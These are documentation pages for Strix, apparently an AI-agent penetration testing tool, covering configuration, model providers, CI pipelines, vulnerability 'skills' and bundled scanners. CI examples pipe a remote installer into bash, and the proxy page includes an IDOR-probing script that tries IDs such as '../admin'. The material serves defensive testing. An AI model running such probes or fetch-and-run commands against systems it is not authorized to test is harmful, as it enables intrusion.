Strix accepts multiple target types:

```bash
# Local codebase
strix --target ./app-directory

# GitHub repository
strix --target https://github.com/org/repo

# Live web application
strix --target https://your-app.com

# Multiple targets (white-box testing)
strix -t https://github.com/org/repo -t https://your-app.com
```

## Next Steps

<CardGroup cols={2}>
  <Card title="CLI Options" icon="terminal" href="/usage/cli">
    Explore all command-line options.
  </Card>
  <Card title="Scan Modes" icon="gauge" href="/usage/scan-modes">
    Choose the right scan depth.
  </Card>
</CardGroup>
```

## File: `docs/README.md`
```markdown
# Strix Documentation

Documentation source files for Strix, powered by [Mintlify](https://mintlify.com).

## Local Preview

```bash
npm i -g mintlify
cd docs && mintlify dev
```
```

## File: `docs/advanced/configuration.mdx`
```
---
title: "Configuration"
description: "Environment variables for Strix"
---

Configure Strix using environment variables or a config file.

## LLM Configuration

<ParamField path="STRIX_LLM" type="string" required>
  Model name in LiteLLM format (e.g., `openai/gpt-5`, `anthropic/claude-sonnet-4-6`).
</ParamField>

<ParamField path="LLM_API_KEY" type="string">
  API key for your LLM provider. Not required for local models or cloud provider auth (Vertex AI, AWS Bedrock).
</ParamField>

<ParamField path="LLM_API_BASE" type="string">
  Custom API base URL. Also accepts `OPENAI_API_BASE`, `LITELLM_BASE_URL`, or `OLLAMA_API_BASE`.
</ParamField>

<ParamField path="LLM_TIMEOUT" default="300" type="integer">
  Request timeout in seconds for LLM calls.
</ParamField>

<ParamField path="STRIX_LLM_MAX_RETRIES" default="5" type="integer">
  Maximum number of retries for LLM API calls on transient failures.
</ParamField>

<ParamField path="STRIX_REASONING_EFFORT" default="high" type="string">
  Control thinking effort for reasoning models. Valid values: `none`, `minimal`, `low`, `medium`, `high`, `xhigh`. Defaults to `medium` for quick scan mode.
</ParamField>

<ParamField path="STRIX_MEMORY_COMPRESSOR_TIMEOUT" default="30" type="integer">
  Timeout in seconds for memory compression operations (context summarization).
</ParamField>

## Optional Features

<ParamField path="PERPLEXITY_API_KEY" type="string">
  API key for Perplexity AI. Enables real-time web search during scans for OSINT and vulnerability research.
</ParamField>

<ParamField path="STRIX_DISABLE_BROWSER" default="false" type="boolean">
  Disable browser automation tools.
</ParamField>

<ParamField path="STRIX_TELEMETRY" default="1" type="string">
  Global telemetry default toggle. Set to `0`, `false`, `no`, or `off` to disable both PostHog and OTEL unless overridden by per-channel flags below.
</ParamField>

<ParamField path="STRIX_OTEL_TELEMETRY" type="string">
  Enable/disable OpenTelemetry run observability independently. When unset, falls back to `STRIX_TELEMETRY`.
</ParamField>

<ParamField path="STRIX_POSTHOG_TELEMETRY" type="string">
  Enable/disable PostHog product telemetry independently. When unset, falls back to `STRIX_TELEMETRY`.
</ParamField>

<ParamField path="TRACELOOP_BASE_URL" type="string">
  OTLP/Traceloop base URL for remote OpenTelemetry export. If unset, Strix keeps traces local only.
</ParamField>

<ParamField path="TRACELOOP_API_KEY" type="string">
  API key used for remote trace export. Remote export is enabled only when both `TRACELOOP_BASE_URL` and `TRACELOOP_API_KEY` are set.
</ParamField>

<ParamField path="TRACELOOP_HEADERS" type="string">
  Optional custom OTEL headers (JSON object or `key=value,key2=value2`). Useful for Langfuse or custom/self-hosted OTLP gateways.
</ParamField>

When remote OTEL vars are not set, Strix still writes complete run telemetry locally to:

```bash
strix_runs/<run_name>/events.jsonl
```

When remote vars are set, Strix dual-writes telemetry to both local JSONL and the remote OTEL endpoint.

## Docker Configuration

<ParamField path="STRIX_IMAGE" default="ghcr.io/usestrix/strix-sandbox:0.1.12" type="string">
  Docker image to use for the sandbox container.
</ParamField>

<ParamField path="DOCKER_HOST" type="string">
  Docker daemon socket path. Use for remote Docker hosts or custom configurations.
</ParamField>

<ParamField path="STRIX_RUNTIME_BACKEND" default="docker" type="string">
  Runtime backend for the sandbox environment.
</ParamField>

## Sandbox Configuration

<ParamField path="STRIX_SANDBOX_EXECUTION_TIMEOUT" default="120" type="integer">
  Maximum execution time in seconds for sandbox operations.
</ParamField>

<ParamField path="STRIX_SANDBOX_CONNECT_TIMEOUT" default="10" type="integer">
  Timeout in seconds for connecting to the sandbox container.
</ParamField>

## Config File

Strix stores configuration in `~/.strix/cli-config.json`. You can also specify a custom config file:

```bash
strix --target ./app --config /path/to/config.json
```

**Config file format:**

```json
{
  "env": {
    "STRIX_LLM": "openai/gpt-5",
    "LLM_API_KEY": "sk-...",
    "STRIX_REASONING_EFFORT": "high"
  }
}
```

## Example Setup

```bash
# Required
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="sk-..."

# Optional: Enable web search
export PERPLEXITY_API_KEY="pplx-..."

# Optional: Custom timeouts
export LLM_TIMEOUT="600"
export STRIX_SANDBOX_EXECUTION_TIMEOUT="300"

```
```

## File: `docs/advanced/skills.mdx`
```
---
title: "Skills"
description: "Specialized knowledge packages that enhance agent capabilities"
---

Skills are structured knowledge packages that give Strix agents deep expertise in specific vulnerability types, technologies, and testing methodologies.

## The Idea

LLMs have broad but shallow security knowledge. They know _about_ SQL injection, but lack the nuanced techniques that experienced pentesters use—parser quirks, bypass methods, validation tricks, and chain attacks.

Skills inject this deep, specialized knowledge directly into the agent's context, transforming it from a generalist into a specialist for the task at hand.

## How They Work

When Strix spawns an agent for a specific task, it selects up to 5 relevant skills based on the context:

```python
# Agent created for JWT testing automatically loads relevant skills
create_agent(
    task="Test authentication mechanisms",
    skills=["authentication_jwt", "business_logic"]
)
```

The skills are injected into the agent's system prompt, giving it access to:

- **Advanced techniques** — Non-obvious methods beyond standard testing
- **Working payloads** — Practical examples with variations
- **Validation methods** — How to confirm findings and avoid false positives

## Skill Categories

### Vulnerabilities

Core vulnerability classes with deep exploitation techniques.

| Skill                                 | Coverage                                               |
| ------------------------------------- | ------------------------------------------------------ |
| `authentication_jwt`                  | JWT attacks, algorithm confusion, claim tampering      |
| `idor`                                | Object reference attacks, horizontal/vertical access   |
| `sql_injection`                       | SQL injection variants, WAF bypasses, blind techniques |
| `xss`                                 | XSS types, filter bypasses, DOM exploitation           |
| `ssrf`                                | Server-side request forgery, protocol handlers         |
| `csrf`                                | Cross-site request forgery, token bypasses             |
| `xxe`                                 | XML external entities, OOB exfiltration                |
| `rce`                                 | Remote code execution vectors                          |
| `business_logic`                      | Logic flaws, state manipulation, race conditions       |
| `race_conditions`                     | TOCTOU, parallel request attacks                       |
| `path_traversal_lfi_rfi`              | File inclusion, path traversal                         |
| `open_redirect`                       | Redirect bypasses, URL parsing tricks                  |
| `mass_assignment`                     | Attribute injection, hidden parameter pollution        |
| `insecure_file_uploads`               | Upload bypasses, extension tricks                      |
| `information_disclosure`              | Data leakage, error-based enumeration                  |
| `subdomain_takeover`                  | Dangling DNS, cloud resource claims                    |
| `broken_function_level_authorization` | Privilege escalation, role bypasses                    |

### Frameworks

Framework-specific testing patterns.

| Skill     | Coverage                                     |
| --------- | -------------------------------------------- |
| `fastapi` | FastAPI security patterns, Pydantic bypasses |
| `nextjs`  | Next.js SSR/SSG issues, API route security   |

### Technologies

Third-party service and platform security.

| Skill                | Coverage                           |
| -------------------- | ---------------------------------- |
| `supabase`           | Supabase RLS bypasses, auth issues |
| `firebase_firestore` | Firestore rules, Firebase auth     |

### Protocols

Protocol-specific testing techniques.

| Skill     | Coverage                                         |
| --------- | ------------------------------------------------ |
| `graphql` | GraphQL introspection, batching, resolver issues |

## Skill Structure

Each skill is a Markdown file with YAML frontmatter for metadata:

```markdown
---
name: skill_name
description: Brief description of the skill's coverage
---

# Skill Title

Key insight about this vulnerability or technique.

## Attack Surface
What this skill covers and where to look.

## Methodology
Step-by-step testing approach.

## Techniques
How to discover and exploit the vulnerability.

## Bypass Methods
How to bypass common protections.

## Validation
How to confirm findings and avoid false positives.
```

## Contributing Skills

Community contributions are welcome. Create a `.md` file in the appropriate category with YAML frontmatter (`name` and `description` fields). Good skills include:

1. **Real-world techniques** — Methods that work in practice
2. **Practical payloads** — Working examples with variations
3. **Validation steps** — How to confirm without false positives
4. **Context awareness** — Version/environment-specific behavior
```

## File: `docs/cloud/overview.mdx`
```
---
title: "Introduction"
description: "Managed security testing without local setup"
---

Skip the setup. Run Strix in the cloud at [app.strix.ai](https://app.strix.ai).

## Features

<CardGroup cols={2}>
  <Card title="No Setup Required" icon="cloud">
    No Docker, API keys, or local installation needed.
  </Card>
  <Card title="Full Reports" icon="file-lines">
    Detailed findings with remediation guidance.
  </Card>
  <Card title="Team Dashboards" icon="users">
    Track vulnerabilities and fixes over time.
  </Card>
  <Card title="GitHub Integration" icon="github">
    Automatic scans on pull requests.
  </Card>
</CardGroup>

## What You Get

- **Penetration test reports** — Validated findings with PoCs
- **Shareable dashboards** — Collaborate with your team
- **CI/CD integration** — Block risky changes automatically
- **Continuous monitoring** — Catch new vulnerabilities quickly

## Getting Started

1. Sign up at [app.strix.ai](https://app.strix.ai)
2. Connect your repository or enter a target URL
3. Launch your first scan

<Card title="Try Strix Cloud" icon="rocket" href="https://app.strix.ai">
  Run your first pentest in minutes.
</Card>
```

## File: `docs/integrations/ci-cd.mdx`
```
---
title: "CI/CD Integration"
description: "Run Strix in any CI/CD pipeline"
---

Strix runs in headless mode for automated pipelines.

## Headless Mode

Use the `-n` or `--non-interactive` flag:

```bash
strix -n --target ./app --scan-mode quick
```

## Exit Codes

| Code | Meaning |
|------|---------|
| 0 | No vulnerabilities found |
| 1 | Execution error |
| 2 | Vulnerabilities found |

## GitLab CI

```yaml .gitlab-ci.yml
security-scan:
  image: docker:latest
  services:
    - docker:dind
  variables:
    STRIX_LLM: $STRIX_LLM
    LLM_API_KEY: $LLM_API_KEY
  script:
    - curl -sSL https://strix.ai/install | bash
    - strix -n -t ./ --scan-mode quick
```

## Jenkins

```groovy Jenkinsfile
pipeline {
    agent any
    environment {
        STRIX_LLM = credentials('strix-llm')
        LLM_API_KEY = credentials('llm-api-key')
    }
    stages {
        stage('Security Scan') {
            steps {
                sh 'curl -sSL https://strix.ai/install | bash'
                sh 'strix -n -t ./ --scan-mode quick'
            }
        }
    }
}
```

## CircleCI

```yaml .circleci/config.yml
version: 2.1
jobs:
  security-scan:
    docker:
      - image: cimg/base:current
    steps:
      - checkout
      - setup_remote_docker
      - run:
          name: Install Strix
          command: curl -sSL https://strix.ai/install | bash
      - run:
          name: Run Scan
          command: strix -n -t ./ --scan-mode quick
```

<Note>
All CI platforms require Docker access. Ensure your runner has Docker available.
</Note>
```

## File: `docs/integrations/github-actions.mdx`
```
---
title: "GitHub Actions"
description: "Run Strix security scans on every pull request"
---

Integrate Strix into your GitHub workflow to catch vulnerabilities before they reach production.

## Basic Workflow

```yaml .github/workflows/security.yml
name: Security Scan

on:
  pull_request:

jobs:
  strix-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Install Strix
        run: curl -sSL https://strix.ai/install | bash

      - name: Run Security Scan
        env:
          STRIX_LLM: ${{ secrets.STRIX_LLM }}
          LLM_API_KEY: ${{ secrets.LLM_API_KEY }}
        run: strix -n -t ./ --scan-mode quick
```

## Required Secrets

Add these secrets to your repository:

| Secret | Description |
|--------|-------------|
| `STRIX_LLM` | Model name (e.g., `openai/gpt-5`) |
| `LLM_API_KEY` | API key for your LLM provider |

## Exit Codes

The workflow fails when vulnerabilities are found:

| Code | Result |
|------|--------|
| 0 | Pass — No vulnerabilities |
| 2 | Fail — Vulnerabilities found |

## Scan Modes for CI

| Mode | Duration | Use Case |
|------|----------|----------|
| `quick` | Minutes | Every PR |
| `standard` | ~30 min | Nightly builds |
| `deep` | 1-4 hours | Release candidates |

<Tip>
Use `quick` mode for PRs to keep feedback fast. Schedule `deep` scans nightly.
</Tip>
```

## File: `docs/llm-providers/anthropic.mdx`
```
---
title: "Anthropic"
description: "Configure Strix with Claude models"
---

## Setup

```bash
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="sk-ant-..."
```

## Available Models

| Model | Description |
|-------|-------------|
| `anthropic/claude-sonnet-4-6` | Best balance of intelligence and speed |
| `anthropic/claude-opus-4-6` | Maximum capability for deep analysis |

## Get API Key

1. Go to [console.anthropic.com](https://console.anthropic.com)
2. Navigate to API Keys
3. Create a new key
```

## File: `docs/llm-providers/azure.mdx`
```
---
title: "Azure OpenAI"
description: "Configure Strix with OpenAI models via Azure"
---

## Setup

```bash
export STRIX_LLM="azure/your-gpt5-deployment"
export AZURE_API_KEY="your-azure-api-key"
export AZURE_API_BASE="https://your-resource.openai.azure.com"
export AZURE_API_VERSION="2025-11-01-preview"
```

## Configuration

| Variable | Description |
|----------|-------------|
| `STRIX_LLM` | `azure/<your-deployment-name>` |
| `AZURE_API_KEY` | Your Azure OpenAI API key |
| `AZURE_API_BASE` | Your Azure OpenAI endpoint URL |
| `AZURE_API_VERSION` | API version (e.g., `2025-11-01-preview`) |

## Example

```bash
export STRIX_LLM="azure/gpt-5-deployment"
export AZURE_API_KEY="abc123..."
export AZURE_API_BASE="https://mycompany.openai.azure.com"
export AZURE_API_VERSION="2025-11-01-preview"
```

## Prerequisites

1. Create an Azure OpenAI resource
2. Deploy a model (e.g., GPT-5)
3. Get the endpoint URL and API key from the Azure portal
```

## File: `docs/llm-providers/bedrock.mdx`
```
---
title: "AWS Bedrock"
description: "Configure Strix with models via AWS Bedrock"
---

## Setup

```bash
export STRIX_LLM="bedrock/anthropic.claude-4-5-sonnet-20251022-v1:0"
```

No API key required—uses AWS credentials from environment.

## Authentication

### Option 1: AWS CLI Profile

```bash
export AWS_PROFILE="your-profile"
export AWS_REGION="us-east-1"
```

### Option 2: Access Keys

```bash
export AWS_ACCESS_KEY_ID="AKIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_REGION="us-east-1"
```

### Option 3: IAM Role (EC2/ECS)

Automatically uses instance role credentials.

## Available Models

| Model | Description |
|-------|-------------|
| `bedrock/anthropic.claude-4-5-sonnet-20251022-v1:0` | Claude 4.5 Sonnet |
| `bedrock/anthropic.claude-4-5-opus-20251022-v1:0` | Claude 4.5 Opus |
| `bedrock/anthropic.claude-4-5-haiku-20251022-v1:0` | Claude 4.5 Haiku |
| `bedrock/amazon.titan-text-premier-v2:0` | Amazon Titan Premier v2 |

## Prerequisites

1. Enable model access in the AWS Bedrock console
2. Ensure your IAM role/user has `bedrock:InvokeModel` permission
```

## File: `docs/llm-providers/local.mdx`
```
---
title: "Local Models"
description: "Run Strix with self-hosted LLMs for privacy and air-gapped testing"
---

Running Strix with local models allows for completely offline, privacy-first security assessments. Data never leaves your machine, making this ideal for sensitive internal networks or air-gapped environments.

## Privacy vs Performance

| Feature | Local Models | Cloud Models (GPT-5/Claude 4.5) |
|---------|--------------|--------------------------------|
| **Privacy** | 🔒 Data stays local | Data sent to provider |
| **Cost** | Free (hardware only) | Pay-per-token |
| **Reasoning** | Lower (struggles with agents) | State-of-the-art |
| **Setup** | Complex (GPU required) | Instant |

<Warning>
**Compatibility Note**: Strix relies on advanced agentic capabilities (tool use, multi-step planning, self-correction). Most local models, especially those under 70B parameters, struggle with these complex tasks.

For critical assessments, we strongly recommend using state-of-the-art cloud models like **Claude 4.5 Sonnet** or **GPT-5**. Use local models only when privacy is the absolute priority.
</Warning>

## Ollama

[Ollama](https://ollama.ai) is the easiest way to run local models on macOS, Linux, and Windows.

### Setup

1. Install Ollama from [ollama.ai](https://ollama.ai)
2. Pull a high-performance model:
   ```bash
   ollama pull qwen3-vl
   ```
3. Configure Strix:
   ```bash
   export STRIX_LLM="ollama/qwen3-vl"
   export LLM_API_BASE="http://localhost:11434"
   ```

### Recommended Models

We recommend these models for the best balance of reasoning and tool use:

**Recommended models:**
- **Qwen3 VL** (`ollama pull qwen3-vl`)
- **DeepSeek V3.1** (`ollama pull deepseek-v3.1`)
- **Devstral 2** (`ollama pull devstral-2`)

## LM Studio / OpenAI Compatible

If you use LM Studio, vLLM, or other runners:

```bash
export STRIX_LLM="openai/local-model"
export LLM_API_BASE="http://localhost:1234/v1"  # Adjust port as needed
```
```

## File: `docs/llm-providers/models.mdx`
```
---
title: "Strix Router"
description: "Access top LLMs through a single API with high rate limits and zero data retention"
---

Strix Router gives you access to the best LLMs through a single API key.

<Note>
Strix Router is currently in **beta**. It's completely optional — Strix works with any [LiteLLM-compatible provider](/llm-providers/overview) using your own API keys, or with [local models](/llm-providers/local). Strix Router is just the setup we test and optimize for.
</Note>

## Why Use Strix Router?

- **High rate limits** — No throttling during long-running scans
- **Zero data retention** — Routes to providers with zero data retention policies enabled
- **Failover & load balancing** — Automatic fallback across providers for reliability
- **Simple setup** — One API key, one environment variable, no provider accounts needed
- **No markup** — Same token pricing as the underlying providers, no extra fees

## Quick Start

1. Get your API key at [models.strix.ai](https://models.strix.ai)
2. Set your environment:

```bash
export LLM_API_KEY='your-strix-api-key'
export STRIX_LLM='strix/gpt-5'
```

3. Run a scan:

```bash
strix --target ./your-app
```

## Available Models

### Anthropic

| Model | ID |
|-------|-----|
| Claude Sonnet 4.6 | `strix/claude-sonnet-4.6` |
| Claude Opus 4.6 | `strix/claude-opus-4.6` |

### OpenAI

| Model | ID |
|-------|-----|
| GPT-5.2 | `strix/gpt-5.2` |
| GPT-5.1 | `strix/gpt-5.1` |
| GPT-5 | `strix/gpt-5` |

### Google

| Model | ID |
|-------|-----|
| Gemini 3 Pro | `strix/gemini-3-pro-preview` |
| Gemini 3 Flash | `strix/gemini-3-flash-preview` |

### Other

| Model | ID |
|-------|-----|
| GLM-5 | `strix/glm-5` |
| GLM-4.7 | `strix/glm-4.7` |

## Configuration Reference

<ParamField path="LLM_API_KEY" type="string" required>
  Your Strix API key from [models.strix.ai](https://models.strix.ai).
</ParamField>

<ParamField path="STRIX_LLM" type="string" required>
  Model ID from the tables above. Must be prefixed with `strix/`.
</ParamField>
```

## File: `docs/llm-providers/openai.mdx`
```
---
title: "OpenAI"
description: "Configure Strix with OpenAI models"
---

## Setup

```bash
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="sk-..."
```

## Available Models

See [OpenAI Models Documentation](https://platform.openai.com/docs/models) for the full list of available models.

## Get API Key

1. Go to [platform.openai.com](https://platform.openai.com)
2. Navigate to API Keys
3. Create a new secret key

## Custom Base URL

For OpenAI-compatible APIs:

```bash
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="your-key"
export LLM_API_BASE="https://your-proxy.com/v1"
```
```

## File: `docs/llm-providers/openrouter.mdx`
```
---
title: "OpenRouter"
description: "Configure Strix with models via OpenRouter"
---

[OpenRouter](https://openrouter.ai) provides access to 100+ models from multiple providers through a single API.

## Setup

```bash
export STRIX_LLM="openrouter/openai/gpt-5"
export LLM_API_KEY="sk-or-..."
```

## Available Models

Access any model on OpenRouter using the format `openrouter/<provider>/<model>`:

| Model | Configuration |
|-------|---------------|
| GPT-5 | `openrouter/openai/gpt-5` |
| Claude Sonnet 4.6 | `openrouter/anthropic/claude-sonnet-4.6` |
| Gemini 3 Pro | `openrouter/google/gemini-3-pro-preview` |
| GLM-4.7 | `openrouter/z-ai/glm-4.7` |

## Get API Key

1. Go to [openrouter.ai](https://openrouter.ai)
2. Sign in and navigate to Keys
3. Create a new API key

## Benefits

- **Single API** — Access models from OpenAI, Anthropic, Google, Meta, and more
- **Fallback routing** — Automatic failover between providers
- **Cost tracking** — Monitor usage across all models
- **Higher rate limits** — OpenRouter handles provider limits for you
```

## File: `docs/llm-providers/overview.mdx`
```
---
title: "Overview"
description: "Configure your AI model for Strix"
---

Strix uses [LiteLLM](https://docs.litellm.ai/docs/providers) for model compatibility, supporting 100+ LLM providers.

## Strix Router (Recommended)

The fastest way to get started. [Strix Router](/llm-providers/models) gives you access to tested models with the highest rate limits and zero data retention.

```bash
export STRIX_LLM="strix/gpt-5"
export LLM_API_KEY="your-strix-api-key"
```

Get your API key at [models.strix.ai](https://models.strix.ai).

## Bring Your Own Key

You can also use any LiteLLM-compatible provider with your own API keys:

| Model             | Provider      | Configuration                    |
| ----------------- | ------------- | -------------------------------- |
| GPT-5             | OpenAI        | `openai/gpt-5`                   |
| Claude Sonnet 4.6 | Anthropic     | `anthropic/claude-sonnet-4-6`    |
| Gemini 3 Pro      | Google Vertex | `vertex_ai/gemini-3-pro-preview` |

```bash
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="your-api-key"
```

## Local Models

Run models locally with [Ollama](https://ollama.com), [LM Studio](https://lmstudio.ai), or any OpenAI-compatible server:

```bash
export STRIX_LLM="ollama/llama4"
export LLM_API_BASE="http://localhost:11434"
```

See the [Local Models guide](/llm-providers/local) for setup instructions and recommended models.

## Provider Guides

<CardGroup cols={2}>
  <Card title="Strix Router" href="/llm-providers/models">
    Recommended models router with high rate limits.
  </Card>
  <Card title="OpenAI" href="/llm-providers/openai">
    GPT-5 models.
  </Card>
  <Card title="Anthropic" href="/llm-providers/anthropic">
    Claude Opus, Sonnet, and Haiku.
  </Card>
  <Card title="OpenRouter" href="/llm-providers/openrouter">
    Access 100+ models through a single API.
  </Card>
  <Card title="Google Vertex AI" href="/llm-providers/vertex">
    Gemini 3 models via Google Cloud.
  </Card>
  <Card title="AWS Bedrock" href="/llm-providers/bedrock">
    Claude and Titan models via AWS.
  </Card>
  <Card title="Azure OpenAI" href="/llm-providers/azure">
    GPT-5 via Azure.
  </Card>
  <Card title="Local Models" href="/llm-providers/local">
    Llama 4, Mistral, and self-hosted models.
  </Card>
</CardGroup>

## Model Format

Use LiteLLM's `provider/model-name` format:

```
openai/gpt-5
anthropic/claude-sonnet-4-6
vertex_ai/gemini-3-pro-preview
bedrock/anthropic.claude-4-5-sonnet-20251022-v1:0
ollama/llama4
```
```

## File: `docs/llm-providers/vertex.mdx`
```
---
title: "Google Vertex AI"
description: "Configure Strix with Gemini models via Google Cloud"
---

## Installation

Vertex AI requires the Google Cloud dependency. Install Strix with the vertex extra:

```bash
pipx install "strix-agent[vertex]"
```

## Setup

```bash
export STRIX_LLM="vertex_ai/gemini-3-pro-preview"
```

No API key required—uses Google Cloud Application Default Credentials.

## Authentication

### Option 1: gcloud CLI

```bash
gcloud auth application-default login
```

### Option 2: Service Account

```bash
export GOOGLE_APPLICATION_CREDENTIALS="/path/to/service-account.json"
```

## Available Models

| Model | Description |
|-------|-------------|
| `vertex_ai/gemini-3-pro-preview` | Best overall performance for security testing |
| `vertex_ai/gemini-3-flash-preview` | Faster and cheaper |

## Project Configuration

```bash
export VERTEXAI_PROJECT="your-project-id"
export VERTEXAI_LOCATION="global"
```

## Prerequisites

1. Enable the Vertex AI API in your Google Cloud project
2. Ensure your account has the `Vertex AI User` role
```

## File: `docs/tools/browser.mdx`
```
---
title: "Browser"
description: "Playwright-powered Chrome for web application testing"
---

Strix uses a headless Chrome browser via Playwright to interact with web applications exactly like a real user would.

## How It Works

All browser traffic is automatically routed through the Caido proxy, giving Strix full visibility into every request and response. This enables:

- Testing client-side vulnerabilities (XSS, DOM manipulation)
- Navigating authenticated flows (login, OAuth, MFA)
- Triggering JavaScript-heavy functionality
- Capturing dynamically generated requests

## Capabilities

| Action     | Description                                 |
| ---------- | ------------------------------------------- |
| Navigate   | Go to URLs, follow links, handle redirects  |
| Click      | Interact with buttons, links, form elements |
| Type       | Fill in forms, search boxes, input fields   |
| Execute JS | Run custom JavaScript in the page context   |
| Screenshot | Capture visual state for reports            |
| Multi-tab  | Test across multiple browser tabs           |

## Example Flow

1. Agent launches browser and navigates to login page
2. Fills in credentials and submits form
3. Proxy captures the authentication request
4. Agent navigates to protected areas
5. Tests for IDOR by replaying requests with modified IDs
```

## File: `docs/tools/overview.mdx`
```
---
title: "Agent Tools"
description: "How Strix agents interact with targets"
---

Strix agents use specialized tools to test your applications like a real penetration tester would.

## Core Tools

<CardGroup cols={2}>
  <Card title="Browser" icon="globe" href="/tools/browser">
    Playwright-powered Chrome for interacting with web UIs.
  </Card>
  <Card title="HTTP Proxy" icon="network-wired" href="/tools/proxy">
    Caido-powered proxy for intercepting and replaying requests.
  </Card>
  <Card title="Terminal" icon="terminal" href="/tools/terminal">
    Bash shell for running commands and security tools.
  </Card>
  <Card title="Sandbox Tools" icon="toolbox" href="/tools/sandbox">
    Pre-installed security tools: Nuclei, ffuf, and more.
  </Card>
</CardGroup>

## Additional Tools

| Tool           | Purpose                                  |
| -------------- | ---------------------------------------- |
| Python Runtime | Write and execute custom exploit scripts |
| File Editor    | Read and modify source code              |
| Web Search     | Real-time OSINT via Perplexity           |
| Notes          | Document findings during the scan        |
| Reporting      | Generate vulnerability reports with PoCs |
```

## File: `docs/tools/proxy.mdx`
```
---
title: "HTTP Proxy"
description: "Caido-powered proxy for request interception and replay"
---

Strix includes [Caido](https://caido.io), a modern HTTP proxy built for security testing. All browser traffic flows through Caido, giving the agent full control over requests and responses.

## Capabilities

| Feature          | Description                                  |
| ---------------- | -------------------------------------------- |
| Request Capture  | Log all HTTP/HTTPS traffic automatically     |
| Request Replay   | Repeat any request with modifications        |
| HTTPQL           | Query captured traffic with powerful filters |
| Scope Management | Focus on specific domains or paths           |
| Sitemap          | Visualize the discovered attack surface      |

## HTTPQL Filtering

Query captured requests using Caido's HTTPQL syntax

## Request Replay

The agent can take any captured request and replay it with modifications:

- Change path parameters (test for IDOR)
- Modify request body (test for injection)
- Add/remove headers (test for auth bypass)
- Alter cookies (test for session issues)

## Python Integration

All proxy functions are automatically available in Python sessions. This enables powerful scripted security testing:

```python
# List recent POST requests
post_requests = list_requests(
    httpql_filter='req.method.eq:"POST"',
    page_size=20
)

# View a specific request
request_details = view_request("req_123", part="request")

# Replay with modified payload
response = repeat_request("req_123", {
    "body": '{"user_id": "admin"}'
})
print(f"Status: {response['status_code']}")
```

### Available Functions

| Function               | Description                                |
| ---------------------- | ------------------------------------------ |
| `list_requests()`      | Query captured traffic with HTTPQL filters |
| `view_request()`       | Get full request/response details          |
| `repeat_request()`     | Replay a request with modifications        |
| `send_request()`       | Send a new HTTP request                    |
| `scope_rules()`        | Manage proxy scope (allowlist/denylist)    |
| `list_sitemap()`       | View discovered endpoints                  |
| `view_sitemap_entry()` | Get details for a sitemap entry            |

### Example: Automated IDOR Testing

```python
# Get all requests to user endpoints
user_requests = list_requests(
    httpql_filter='req.path.cont:"/users/"'
)

for req in user_requests.get('requests', []):
    # Try accessing with different user IDs
    for test_id in ['1', '2', 'admin', '../admin']:
        response = repeat_request(req['id'], {
            'url': req['path'].replace('/users/1', f'/users/{test_id}')
        })

        if response['status_code'] == 200:
            print(f"Potential IDOR: {test_id} returned 200")
```

## Human-in-the-Loop

Strix exposes the Caido proxy to your host machine, so you can interact with it alongside the automated scan. When the sandbox starts, the Caido URL is displayed in the TUI sidebar — click it to copy, then open it in Caido Desktop.

### Accessing Caido

1. Start a scan as usual
2. Look for the **Caido** URL in the sidebar stats panel (e.g. `localhost:52341`)
3. Open the URL in Caido Desktop
4. Click **Continue as guest** to access the instance

### What You Can Do

- **Inspect traffic** — Browse all HTTP/HTTPS requests the agent is making in real time
- **Replay requests** — Take any captured request and resend it with your own modifications
- **Intercept and modify** — Pause requests mid-flight, edit them, then forward
- **Explore the sitemap** — See the full attack surface the agent has discovered
- **Manual testing** — Use Caido's tools to test findings the agent reports, or explore areas it hasn't reached

This turns Strix from a fully automated scanner into a collaborative tool — the agent handles the heavy lifting while you focus on the interesting parts.

## Scope

Create scopes to filter traffic to relevant domains:

```
Allowlist: ["api.example.com", "*.example.com"]
Denylist: ["*.gif", "*.jpg", "*.png", "*.css", "*.js"]
```
```

## File: `docs/tools/sandbox.mdx`
```
---
title: "Sandbox Tools"
description: "Pre-installed security tools in the Strix container"
---

Strix runs inside a Kali Linux-based Docker container with a comprehensive set of security tools pre-installed. The agent can use any of these tools through the [terminal](/tools/terminal).

## Reconnaissance

| Tool                                                       | Description                            |
| ---------------------------------------------------------- | -------------------------------------- |
| [Subfinder](https://github.com/projectdiscovery/subfinder) | Subdomain discovery                    |
| [Naabu](https://github.com/projectdiscovery/naabu)         | Fast port scanner                      |
| [httpx](https://github.com/projectdiscovery/httpx)         | HTTP probing and analysis              |
| [Katana](https://github.com/projectdiscovery/katana)       | Web crawling and spidering             |
| [ffuf](https://github.com/ffuf/ffuf)                       | Fast web fuzzer                        |
| [Nmap](https://nmap.org)                                   | Network scanning and service detection |

## Web Testing

| Tool                                                   | Description                      |
| ------------------------------------------------------ | -------------------------------- |
| [Arjun](https://github.com/s0md3v/Arjun)               | HTTP parameter discovery         |
| [Dirsearch](https://github.com/maurosoria/dirsearch)   | Directory and file brute-forcing |
| [wafw00f](https://github.com/EnableSecurity/wafw00f)   | WAF fingerprinting               |
| [GoSpider](https://github.com/jaeles-project/gospider) | Web spider for link extraction   |

## Automated Scanners

| Tool                                                 | Description                                        |
| ---------------------------------------------------- | -------------------------------------------------- |
| [Nuclei](https://github.com/projectdiscovery/nuclei) | Template-based vulnerability scanner               |
| [SQLMap](https://sqlmap.org)                         | Automatic SQL injection detection and exploitation |
| [Wapiti](https://wapiti-scanner.github.io)           | Web application vulnerability scanner              |
| [ZAP](https://zaproxy.org)                           | OWASP Zed Attack Proxy                             |

## JavaScript Analysis

| Tool                                                     | Description                    |
| -------------------------------------------------------- | ------------------------------ |
| [JS-Snooper](https://github.com/aravind0x7/JS-Snooper)   | JavaScript reconnaissance      |
| [jsniper](https://github.com/xchopath/jsniper.sh)        | JavaScript file analysis       |
| [Retire.js](https://retirejs.github.io/retire.js)        | Detect vulnerable JS libraries |
| [ESLint](https://eslint.org)                             | JavaScript static analysis     |
| [js-beautify](https://github.com/beautifier/js-beautify) | JavaScript deobfuscation       |
| [JSHint](https://jshint.com)                             | JavaScript code quality tool   |

## Secret Detection

| Tool                                                        | Description                           |
| ----------------------------------------------------------- | ------------------------------------- |
| [TruffleHog](https://github.com/trufflesecurity/trufflehog) | Find secrets in code and history      |
| [Semgrep](https://github.com/semgrep/semgrep)               | Static analysis for security patterns |
